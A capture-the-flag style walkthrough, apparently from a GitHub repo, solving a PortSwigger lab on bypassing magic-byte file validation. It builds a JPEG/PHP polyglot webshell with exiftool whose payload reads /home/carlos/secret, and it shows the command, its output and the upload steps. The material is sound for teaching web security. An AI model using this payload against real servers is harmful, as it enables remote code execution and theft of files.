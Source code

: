 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f618a2d4-80b0-462a-80b9-e00d5056a9b4)

## Overview :

**Flawed validation of the file's contents -**

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

Certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, **JPEG files always begin with the bytes `FF D8 FF`** 

To bypass this restriction & upload a php webshell, we can use **exiftool** to create a **polyglot webshell** .

Command - 

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
````

```bash
shebu@ubuntu:~/Desktop/websec$ exiftool polyglot.php 
ExifTool Version Number         : 12.44
File Name                       : polyglot.php
Directory                       : .
File Size                       : 8.3 kB
File Modification Date/Time     : 2023:07:30 15:10:32+05:30
File Access Date/Time           : 2023:07:30 15:11:50+05:30
File Inode Change Date/Time     : 2023:07:30 15:10:32+05:30
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
Image Width                     : 189
Image Height                    : 130
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 189x130
Megapixels                      : 0.025
```
- `comment` -> tells exiftool to inject the payload in the comment part of EXIF-metadata of the image called `flower.jpg`. It can also be injected in other fields like `document name` by providing `-documentname=`

## Solution :


Login as wiener. This time server doesn't accept any kind of files except JPG file extention. 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/437a995d-e2a1-41d0-9265-4aba1adf755b)

It checks the **magic header** of the file to determine if it is indeed a jpg file.

So using exiftool we create a polyglot file to upload. It is a jpg file but it will have php payload in its metadata. It will get executed when the file is processed on the server side.

> Command - `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" flower.jpg -o polyglot.php`

This command will inject the php payload in the metadata of **flower.jpg** & save it in a o/p file as **polyglot.php** file.

Upload the polyglot webshell file. 

The polyglot file is successfully uploaded.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/310eefca-b0f9-4081-af95-de4ffa2e868b)

Now perform a GET request to the polyglot file to get the secret from carlos's home directory.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/02f902c2-4fa4-4d6b-9ea9-b82ce85f2a8e)

Submit the secret to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f3265201-1447-4239-8ed9-1e47b0acec14)

